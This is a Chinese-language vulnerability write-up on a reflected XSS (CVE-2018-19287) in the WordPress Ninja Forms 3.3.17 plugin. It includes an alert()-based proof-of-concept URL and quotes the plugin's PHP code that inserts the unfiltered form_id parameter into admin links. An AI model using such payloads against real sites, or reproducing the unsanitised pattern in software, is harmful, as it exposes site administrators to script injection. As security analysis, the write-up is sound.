



# （CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS

## 一、漏洞简介

Ninja Forms是WordPress的终极免费表单创建工具。使用简单但功能强大的拖放式表单创建器在几分钟内构建表单。对于初学者，可以快速轻松地设计复杂的表单，绝对没有代码。对于开发人员，利用内置的钩子，过滤器，甚至自定义字段模板，使用Ninja Forms作为框架，在表单构建或提交的任何步骤中执行您需要的任何操作。

## 二、漏洞影响

## 三、复现过程

下面是我从exploit-db上复制的POC，为了方便判断，修改了弹窗的内容。

```
http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date&end_date="><script>alert(/POC3/);</script>&nf_form_filter&paged=1 
```

我们只要直接复制POC到浏览器的地址栏回车即可触发漏洞。

下图是触发第一个POC的图：



下图是触发第二个POC的图：


下图是触发第三个POC的图：



### 漏洞分析过程

笔者直接从POC方面入手，简单分析一下漏洞的成因。由于方法是一样的，笔者是一个懒人，这里就只分析了POC3的成因。

通过POC查找关键词nf_sub，确定了核心文件\wp-content\plugins\ninja-forms\includes\Admin\Menus\Submissions.php。

下图是Submissions.php部分内容：



通过粗略的阅读，发现这个函数是导致POC3成功弹窗的关键。

下图是Submissions.php文件第71-104行内容：

```
public function change_views( $views )

{

```
// Remove our unused views.

unset( $views[ 'mine' ] );

unset( $views[ 'publish' ] );

// If the Form ID is not empty...

if( ! empty( $_GET[ 'form_id' ] ) ) {

    // ...populate the rest of the query string.

    $form_id = '&amp;form_id=' . $_GET[ 'form_id' ] . '&amp;nf_form_filter&amp;paged=1';

} else {

    // ...otherwise send in an empty string.

    $form_id = '';

}

// Build our new views.

$views[ 'all' ] = '&lt;a href="' . admin_url( 'edit.php?post_status=all&amp;post_type=nf_sub'  ) . $form_id . '"&gt;'

                . __( 'Completed', 'ninja-forms' ) . '&lt;/a&gt;';

$views[ 'trash' ] = '&lt;a href="' . admin_url( 'edit.php?post_status=trash&amp;post_type=nf_sub' ) . $form_id . '"&gt;'

                    . __( 'Trashed', 'ninja-forms' ) . '&lt;/a&gt;';

// Checks to make sure we have a post status.

if( ! empty( $_GET[ 'post_status' ] ) ) {

    // Depending on the domain set the value to plain text.

    if ( 'all' == $_GET[ 'post_status' ] ) {

        $views[ 'all' ] = __( 'Completed', 'ninja-forms' );

    } else if ( 'trash' == $_GET[ 'post_status' ] ) {

        $views[ 'trash' ] = __( 'Trashed', 'ninja-forms' );

    }

}

return $views; 
``` `}` 
```

从上面代码，我们可以看到，form_id并没有被过滤，导致XSS存在。

```
$form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1'; 
```

## 四、参考链接

> https://www.exploit-db.com/exploits/45880/

> https://www.freebuf.com/vuls/190411.html